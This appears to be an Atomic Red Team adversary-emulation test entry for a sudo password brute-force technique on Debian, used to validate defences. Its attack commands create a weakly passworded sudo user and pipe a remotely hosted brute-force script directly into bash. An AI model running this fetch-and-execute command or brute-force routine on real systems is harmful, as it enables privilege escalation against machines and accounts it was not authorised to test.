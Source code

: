 ## Atomic Test #5 - SUDO Brute Force - Debian

An adversary may find themselves on a box (e.g. via ssh key auth, with no password) with a user that has sudo'ers privileges, but they do not know the users password. Normally, failed attempts to access root will not cause the root account to become locked, to prevent denial-of-service. This functionality enables an attacker to undertake a local brute force password guessing attack without locking out the root user.

This test creates the "art" user with a password of "password123", logs in, downloads and executes the sudo_bruteforce.sh which brute force guesses the password, then deletes the user

**Supported Platforms:** Linux

**auto_generated_guid:** ba1bf0b6-f32b-4db0-b7cc-d78cacc76700

#### Inputs:

| Name       | Description           | Type | Default Value                                                                                                 |
| ---------- | --------------------- | ---- | ------------------------------------------------------------------------------------------------------------- |
| remote_url | url of remote payload | url  | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1110.001/src/sudo_bruteforce.sh |

#### Attack Commands: Run with `bash`! Elevation Required (e.g. root or admin)

```bash
useradd -G sudo -s /bin/bash -p $(openssl passwd -1 password123) art
su art
cd /tmp
curl -s #{remote_url} |bash
```

#### Cleanup Commands:

```bash
userdel -fr art
```

#### Dependencies: Run with `bash`!

##### Description: Check if running on a Debian based machine.

##### Check Prereq Commands:

```bash
if grep -iq "debian\|ubuntu\|kali\|mint" /usr/lib/os-release; then echo "Debian"; else echo "NOT Debian"; exit 1; fi
if grep -Rq "pam_tally" /etc/pam.d/*; then echo "pam_tally configured"; exit 1; fi
if [ -x "$(command -v openssl)" ]; then echo "openssl is installed"; else echo "openssl is NOT installed"; exit 1; fi
if [ -x "$(command -v sudo)" ]; then echo "sudo is installed"; else echo "sudo is NOT installed"; exit 1; fi
if [ -x "$(command -v curl)" ]; then echo "curl is installed"; else echo "curl is NOT installed"; exit 1; fi
```

